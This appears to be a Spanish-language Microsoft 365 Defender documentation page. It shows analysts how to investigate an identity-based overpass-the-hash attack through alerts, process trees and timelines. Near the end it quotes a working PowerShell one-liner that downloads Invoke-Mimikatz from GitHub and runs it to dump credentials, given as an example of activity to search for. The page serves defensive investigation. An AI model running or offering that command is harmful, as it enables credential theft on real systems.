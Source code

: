 ```yaml
---
title: Ejemplo de un ataque basado en identidad
description: Realice un análisis de ejemplo de un ataque basado en identidad.
keywords: incidentes, alertas, investigación, correlación, ataque, máquinas, dispositivos, usuarios, identidades, identidad, buzón de correo electrónico, 365, microsoft, m365, respuesta a incidentes, ciberataque
search.product: eADQiWindows 10XVcnh
ms.service: microsoft-365-security
ms.subservice: m365d
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365solution-firstincident
- highpri
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.openlocfilehash: c96e9bef376ad7f36386e8aed78b97cd01332805
ms.sourcegitcommit: 10e6abe740e27000e223378eb17d657a47555fa8
ms.translationtype: MT
ms.contentlocale: es-ES
ms.lasthandoff: 08/31/2022
ms.locfileid: "67480304"
---
```

# <a name="example-of-an-identity-based-attack"></a>Ejemplo de un ataque basado en identidad

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Se aplica a:**
- Microsoft 365 Defender

Microsoft Defender for Identity puede ayudar a detectar intentos malintencionados de poner en peligro las identidades de su organización. Dado que Defender for Identity se integra con Microsoft 365 Defender, los analistas de seguridad pueden tener visibilidad sobre las amenazas procedentes de Defender for Identity, como sospechas de intentos de elevación de privilegios de Netlogon.

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>Análisis del ataque en Microsoft Defender for Identity

Microsoft 365 Defender permite a los analistas filtrar las alertas por origen de detección en la pestaña **Alertas** de la página incidentes. En el ejemplo siguiente, el origen de detección se filtra a **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtrado del origen de detección en Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

La selección de la alerta de ataque sospechoso de **sobrepase el hash** va a una página de Microsoft Defender for Cloud Apps que muestra información más detallada. Para obtener más información sobre una alerta o un ataque, seleccione **Más información sobre este tipo de alerta** para leer una [descripción de las sugerencias de ataque](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) y corrección.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="Una alerta de ataque de overpass-the-hash sospechosa" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>Investigar el mismo ataque en Microsoft Defender para punto de conexión

Como alternativa, un analista puede usar Defender para punto de conexión para obtener más información sobre la actividad en un punto de conexión. Seleccione el incidente en la cola de incidentes y, a continuación, seleccione la pestaña **Alertas** . Desde aquí, también pueden identificar el origen de detección. Un origen de detección etiquetado como EDR significa Detección y respuesta de puntos de conexión, que es Defender para punto de conexión. Desde aquí, el analista selecciona una alerta detectada por EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Detección y respuesta de puntos de conexión en el portal de Microsoft Defender para punto de conexión" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

En la página de alerta se muestra información pertinente, como el nombre del dispositivo afectado, el nombre de usuario, el estado de la investigación automática y los detalles de la alerta. En el artículo de alerta se muestra una representación visual del árbol de procesos. El árbol de procesos es una representación jerárquica de los procesos primarios y secundarios relacionados con la alerta.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Un árbol de proceso de alertas en el Microsoft Defender para punto de conexión" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Cada proceso se puede expandir para ver más detalles. Los detalles que puede ver un analista son los comandos reales que se especificaron como parte de un script malintencionado, direcciones IP de conexión salientes y otra información útil.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Detalles del proceso en el portal de Microsoft Defender para punto de conexión" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
Al seleccionar **Ver en la escala de tiempo**, un analista puede explorar en profundidad aún más para determinar la hora exacta del compromiso. 

Microsoft Defender para punto de conexión puede detectar muchos archivos y scripts malintencionados. Sin embargo, debido a muchos usos legítimos para las conexiones salientes, PowerShell y la actividad de línea de comandos, algunas actividades se considerarían benignas hasta que se crea un archivo o actividad malintencionados. Por lo tanto, el uso de la escala de tiempo ayuda a los analistas a poner la alerta en contexto con la actividad circundante para determinar el origen original o la hora del ataque que, de lo contrario, está oculto por la actividad común del usuario y el sistema de archivos. 

Para usar la escala de tiempo, un analista comenzaría en el momento de la detección de alertas (en rojo) y se desplazaría hacia abajo hacia atrás a tiempo para determinar cuándo se inició realmente la actividad original que condujo a la actividad malintencionada. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Hora de inicio del analista para la detección de alertas" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

Es importante comprender y distinguir la actividad común, como las conexiones Windows Update, el tráfico de activación de Software de confianza de Windows, otras conexiones comunes a sitios de Microsoft, actividad de Internet de terceros, actividad de punto de conexión de Microsoft Configuration Manager y otra actividad benigna de actividad sospechosa. Una manera de distinguir es mediante el uso de filtros de escala de tiempo. Hay muchos filtros que pueden resaltar una actividad específica al filtrar todo lo que el analista no quiere ver. 

En la imagen siguiente, el analista filtró para ver solo los eventos de red y proceso. Este criterio de filtro permite al analista ver las conexiones de red y los procesos que rodean el evento en el que el Bloc de notas estableció una conexión con una dirección IP, que también vimos en el árbol de procesos. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="Cómo se usó el Bloc de notas para realizar una conexión saliente malintencionada" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

En este evento concreto, el Bloc de notas se usó para realizar una conexión saliente malintencionada. Sin embargo, a menudo los atacantes usarán iexplorer.exe para establecer conexiones para descargar una carga malintencionada, ya que normalmente iexplorer.exe procesos se consideran actividad normal del explorador web.

Otro elemento que se debe buscar en la escala de tiempo sería los usos de PowerShell para las conexiones salientes. El analista buscaría conexiones correctas de PowerShell con comandos como `IEX (New-Object Net.Webclient)` seguidos de una conexión saliente a un sitio web que hospeda un archivo malintencionado. 

En el ejemplo siguiente, PowerShell se usó para descargar y ejecutar Mimikatz desde un sitio web:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
Un analista puede buscar rápidamente palabras clave escribiendo la palabra clave en la barra de búsqueda para mostrar solo los eventos creados con PowerShell. 

## <a name="next-step"></a>Paso siguiente

Consulte la ruta de acceso de investigación de [suplantación de identidad (phishing](first-incident-path-phishing.md) ).

## <a name="see-also"></a>Vea también

- [Información general sobre incidentes](incidents-overview.md)
- [Administrar incidentes](manage-incidents.md)
- [Investigar incidentes](investigate-incidents.md)
